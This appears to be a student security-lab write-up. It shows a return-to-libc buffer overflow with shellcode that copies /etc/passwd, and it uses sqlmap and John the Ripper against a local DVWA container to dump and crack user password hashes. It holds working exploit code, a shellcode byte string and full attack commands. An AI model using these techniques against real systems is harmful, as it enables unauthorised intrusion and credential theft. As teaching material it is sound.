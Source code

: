 # Lab #1,22110036, Nguyen Hoang Huy, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char.local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

**Answer 1**: 

Prepare environment 
```
sudo sysctl -w kernel.randomize_va_space=0
```

Compile C program. I stored in lab1vuln.c
```
gcc lab1vuln.c -o lab1vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```

Conpile asm program. I stored in lab1sh.asm
```
nasm -g -f elf lab1sh.asm; ld -m elf_i386 -o lab1sh lab1sh.o
```

Get the shell code of asm program
=> shell code is 97 bytes: \x31\xc0\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x5c\x24\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe7\x89\xf9\x66\x6a\xff\x5a\xcd\x80\x89\xc6\x6a\x05\x58\x31\xc9\x51\x68\x66\x69\x6c\x65\x68\x2f\x6f\x75\x74\x68\x2f\x74\x6d\x70\x89\xe3\xb1\x42\x66\x68\xa4\x01\x5a\xcd\x80\x89\xc3\x6a\x04\x58\x89\xf9\x89\xf2\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xb3\x05\xcd\x80

```
for i in $(objdump -d lab1sh |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```

![alt text](image-1.png)

Stackframes of the program. So we exploit buffer overflow to change return address of file main, replace this and execute shellcode. But array buffer[] only 16 bytes, isn't enough to place shellcode. So we must use return-to-libc to exploit this buffer overflow vulnerabilities.

![alt text](image-4.png)


Use pwd command to get the path of compiled asm program (lab1sh) => the path is : "/home/seed/seclabs/lab1sh"

![alt text](image-6.png)

Create environment variable to contain path of shell code file
```
export mypath="/home/seed/seclabs/lab1sh"
```

![alt text](image-7.png)

Get address of: system, exit and this environment variable.

Address of system: 0xf7e50db0 will be inserted with format \xb0\x0d\xe5\xf7

Address of exit: 0xf7e449e0 will be inserted with format \xe0\x49\xe4\f7

Address of this environment variable: 0xffffd9f4 will be inserted with format \xf4\xd9\xff\xff

![alt text](image-8.png)


As we can see in the stackframe, to replace return address of function main, we need 20 bytes (placement bytes) + 4 bytes (address of system) + 4 bytes (address of exit) + 4 bytes (address of environment variable contain path of shellcode)
```
    r $(python -c "print('a'*20+'\xb0\x0d\xe5\xf7'+'\xe0\x49\xe4\xf7'+'\xf4\xd9\xff\xff')")
```

![alt text](image-9.png)

Successfully execute shellcode: copy /etc/passwd to /tmp/pwfile. Here is before statement and after statement 

![alt text](image-10.png)

![alt text](image-11.png)

**Conclusion** : Successfully to exploit buffer overflow vulnerabilities of C program by return-to-libc method, execute shellcode copy /etc/passwd to /tmp/pwfile
# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: 
Use sqlmap to get information about all available databases

**Answer 1**:

Install dvwa
```
docker pull vulnerables/web-dvwa
```
Docker run dvwa website and login with default user (username: admin, password: password). Website url is: http://localhost/setup.php.
```
docker run -d -p 80:80 --name dvwa vulnerables/web-dvwa
```
Login this website, get cookie

![alt text](image-13.png)

Install sqlmap and excute command, get information about all available databases
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --dbs --cookie="PHPSESSID=le4tn3n8q0urog61lsagt7odq3; security=low"
```

![alt text](image-14.png)

**Question 2**: Use sqlmap to get tables, users information

**Answer 2**:

Use sqlmap to get tables
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=le4tn3n8q0urog61lsagt7odq3; security=low" --tables
```

![alt text](image-15.png)

Use sqlmap to get users
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=le4tn3n8q0urog61lsagt7odq3; security=low" users --dump
```

![alt text](image-16.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

Create file sqlmap_hashes.txt to store these hashes password

![alt text](image-17.png)

Run john command to disclose the password of all database users from the above exploit

password of user "admin" is "password"

password of user "gordonb" is "password"

password of user "1337" is "abc123"

password of user "pablo" is "letmein"

password of user "smithy" is "charley"

```
john --format=raw-md5 sqlmap_hashes.txt
```

![alt text](image-18.png)

